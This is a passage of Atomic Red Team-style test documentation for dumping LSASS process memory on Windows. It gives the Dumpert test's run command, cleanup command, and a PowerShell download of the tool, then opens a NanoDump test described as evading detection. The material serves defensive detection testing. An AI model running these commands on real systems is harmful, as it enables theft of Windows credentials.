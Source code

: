 
**auto_generated_guid:** 7ae7102c-a099-45c8-b985-4c7a2d05790d





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dumpert_exe | Path of Dumpert executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;Outflank-Dumpert.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
"#{dumpert_exe}"
```

#### Cleanup Commands:
```cmd
del C:\windows\temp\dumpert.dmp >nul 2> nul
```



#### Dependencies:  Run with `powershell`!
##### Description: Dumpert executable must exist on disk at specified location (#{dumpert_exe})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{dumpert_exe}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -ItemType Directory (Split-Path "#{dumpert_exe}") -Force | Out-Null
Invoke-WebRequest "https://github.com/clr2of8/Dumpert/raw/5838c357224cc9bc69618c80c2b5b2d17a394b10/Dumpert/x64/Release/Outflank-Dumpert.exe" -OutFile "#{dumpert_exe}"
```




<br/>
<br/>

## Atomic Test #4 - Dump LSASS.exe Memory using NanoDump
The NanoDump tool uses syscalls and an invalid dump signature to avoid detection.

https://github.com/helpsystems/nanodump

Upon successful execution, you should find the nanondump.dmp file in the temp directory

**Supported Platforms:** Windows

